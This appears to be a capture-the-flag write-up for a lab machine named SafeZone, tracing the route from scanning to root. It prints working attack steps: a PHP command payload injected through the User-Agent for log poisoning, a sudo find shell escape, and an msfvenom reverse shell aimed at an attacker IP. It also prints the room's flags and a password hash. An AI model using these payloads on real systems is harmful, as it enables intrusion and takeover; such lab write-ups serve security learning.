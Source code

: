 > SafeZone

# Rustscan

rustscan -a $IP --ulimit=5000 -b 4500 -- -sC -sV -Pn -A

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Whoami?
```

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x txt,php,sql,bak,tar,rar,zip,cgi,bin

```
/index.php (Status: 200)
/news.php (Status: 302)
/register.php (Status: 200)
/detail.php (Status: 302)
/logout.php (Status: 200)
/dashboard.php (Status: 302)
/note.txt (Status: 200)
```

## note.txt

```
Message from admin :-

		I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```

Using register.php we can create a temp account. In news.php we can find a message `I have something to tell you , it's about LFI or is it RCE or something else?`. And details.php says we can't access this feature. In detail.php we can find that we have a comment line `<!-- try to use "page" as GET parameter-->`.

But with the above hint I tried many things and couldn't get a result. So next we know that it is a apache server and has a setting where it includes home directories in it’s file system, accessible through `~/[Name of User]`.  Accessing `http://safezone.thm/~files/pass.txt` got us a message. 

## pass.txt

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```

Copied a small script and found the password. `admin44admin`. Now accessing `details.php` we get access and a text box, which asks us usernames and tells about them linke username, password. And already we got a message about details.php about LFI and page as a GET parameter. Aceesing `safezone.thm/details.php?page=/etc/passswd` gives us LFI.

Let's try accessing apache log file.

## URL: http://10.10.126.25/detail.php?page=/var/log/apache2/access.log

And we can access the logs. Let's try to cache poison. Capture the request in Burp. Let's change user-agent to 
`User-Agent: <?php passthru($_REQUEST['cmd']); ?>`. And then we can refresh the page and execute any command. Next resend it in burp and execute command in browser.

Now we can pass shell.php to attacking machine using wget and using page parameter we can navigat to the shell location and gain a reverse shell!!

# sudo -l

```
User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
```

## Reverse shell

`sudo -u files find . -exec /bin/sh \; -quit` 

And we are in as files! We got a hidden file in `files` directory. 

## .something#fake_can@be^here

```
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

# Cracking using john

john hash -wordlist=/usr/share/wordlists/rockyou.txt

```
magic
```

Let's SSH into files. Looking through the system we got an interesting port internally running.

ss -tulpn

```
NetidState  Recv-Q Send-Q        Local Address:Port   Peer Address:Port 
udp  UNCONN 0      0             127.0.0.53%lo:53          0.0.0.0:*    
udp  UNCONN 0      0         10.10.126.25%eth0:68          0.0.0.0:*    
tcp  LISTEN 0      128           127.0.0.53%lo:53          0.0.0.0:*    
tcp  LISTEN 0      128                 0.0.0.0:22          0.0.0.0:*    
tcp  LISTEN 0      128               127.0.0.1:8000        0.0.0.0:*     => 🐛
tcp  LISTEN 0      80                127.0.0.1:3306        0.0.0.0:*    
tcp  LISTEN 0      128                       *:80                *:*    
tcp  LISTEN 0      128                    [::]:22             [::]:* 
```


Let's port forward and get access to the server. 

ssh -L 2222:127.0.0.1:8000 files@<IP>

**Note: Add socks5 127.0.0.1 2222 in /etc/proxychains4.conf**

But when we access `127.0.0.1:2222` it gives us a 403 error.

# Enumeration.....Again

gobuster dir -u http://127.0.0.1:2222 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/internal_8000 -x txt,php,sql,bak,zip,js,bin,cgi,tar

```
/login.js (Status: 200)
/pentest.php (Status: 200)
```

And pentest.php definitely has a filter and blocks some words.Let's try for blind code injection. Looks like we can user curl. Let's create a msfvenom payload and pass it through scp.

## Payload

1. msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.8.107.21 LPORT=4444 -f elf > shell => Payload created!!!
2. scp shell files@safezone.thm:/tmp/

## In browser

In pentest.php, we access `tmp/shell` by typing it in the text box. And we are in as Yash!!

# user.txt

```
THM{c296539f3286a899d8b3f6632fd62274}
```

# Priv-Esc

## sudo -l

```
User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

Looks like this py file copies the contents of file from one location to another and persists the permissions. Let's try to copy every contents of root to yash's directory.

# Executing bk.py

sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/*
Enter destination: /home/yash/
Enter Password: 123

**Observation: If we didn't provide any password `Usage: sshpass [-f|-d|-p|-e] [-hV] command parameters`**

# root.txt

```
63a9f0ea7bb98050796b649e85481845
```